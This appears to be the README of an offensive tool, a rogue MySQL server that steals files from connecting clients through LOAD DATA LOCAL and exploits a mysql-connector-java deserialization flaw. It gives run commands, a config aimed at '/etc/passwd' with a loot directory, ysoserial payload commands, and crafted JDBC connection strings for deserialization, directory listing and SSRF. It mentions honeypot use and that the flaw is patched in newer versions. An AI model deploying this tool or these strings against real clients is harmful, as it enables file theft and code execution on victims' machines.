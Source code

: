 # Rogue Mysql Server

A rouge mysql server based on https://github.com/vitessio/vitess, support common mysql libraries for multiple programming languages.  
No more annoying compatible problems. You can get tested libraries in the following table.

| language | library                        | pass |
|----------|--------------------------------|------|
| go       | github.com/go-sql-driver/mysql | ✔️   |
| php      | mysqli, pdo                    | ✔️   |
| python   | pymysql                        | ✔️   |
| java     | mysql-connector-java           | ✔️   |
| native   | 10.4.13-MariaDB                | ✔️   |

If you find this tool helped you, please star 🌟 this repository.

## Feature

* Compatible with common mysql libraries
* Capability for reading binary files
* Automatic save the file
* Optional password verification if you want to use it as honeypot
* Read client's connection attributes, which may contain some useful information
* For mysql-connector-java, have the ability to exploit deserialize vulnerability when the jdbc connection string is controlled by user

## Usage

Generate the template config file, you can skip this step if you already have it.
```sh
./rogue_mysql_server -generate
```

Run rouge mysql server using config.yaml.
```sh
./rogue_mysql_server
```

Or if you want to specify a config file.
```sh
./rogue_mysql_server -config other_config.yaml
```

## Config

Example:
```yaml
host: 0.0.0.0
port: 3306
# Listening ip address and port.

version_string: "10.4.13-MariaDB-log"
# What version string client will get.

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
# File that waiting to read. Notice, it doesn't mean you can read all files by once (many mysql libraries don't support this feature).
# It actually will read one file in the list sequentially while the client send one query.

always_read: true
# If this option is set to true, the rouge server won't check the client's hint of whether it supports LOAD DATA LOCAL, and always try to read the file.
# Otherwise, the rouge server will respect the client's hint.

from_database_name: false
# If this option is set to true, the rogue server will get the filename from the database name provided by the client instead of `file_list`.
# E.g. `jdbc:mysql://localhost:3306/%2fetc%2fhosts?allowLoadLocalInfile=true`.
# The server will try to read `/etc/hosts` instead of the file in `file_list`.

max_file_size: 0
# Max size of the reading file (unit is bytes). Any content in the file that exceeds this size limit will be discarded.
# If the size is less than or equal to zero, meaning no limit on size.

auth: false
users:
  - root: root
  - root: password
# If set auth to `false`, the server won't check the client's auth username and password.
# Otherwise, it must match one of `users`.

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
# See section `mysql-connector-java deserialize vulnerability exploit`
```

## mysql-connector-java deserialize vulnerability exploit

After version 8.0.20 and 5.1.49, this vulnerability has been fixed.  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

The related configuration of vulnerability exploit is as follows.
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```

If `jdbc_exploit` is true, the server will automatically exploit the vulnerability if the client is mysql-connector-java. The `jdbc_exploit` will disable the function of file reading, meaning you can't read the client file and exploit deserialize vulnerability at the same time.
If `always_exploit` is true, the server won't check if the client is mysql-connector-java and always try to exploit deserialize vulnerability.
The `ysoserial_command` is the command that generates deserialize payload.

You can specify the payload that will be used by the parameter `connectionAttributes` in the jdbc connection string.  
The server will get the payload that key name equals the value of `t` in `connectionAttributes`. If not found, it will use first payload in `ysoserial_command` list.

For example:    
Exploit this vulnerability in version 8.x with payload cc7. The connection string is `jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:cc7&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password`

Be aware that the server only exploits `com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`, you can refer to the table below:

| version  | jdbc connection string                                                                                                                                                                                   |
|----------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password     |
| 6.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password |
| >=5.1.11 | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password    |

Additionally, the mysql-connector-java support use URL (like file://, http://) as filename, to achieve listing directory or SSRF, but you need set `allowLoadLocalInfile` to true in connection string.  
You can check details in [here](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)  
E.g.
* Listing `/` directory, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`

## Ref

mysql-connector-java vulnerability exploit:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql protocol related:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  

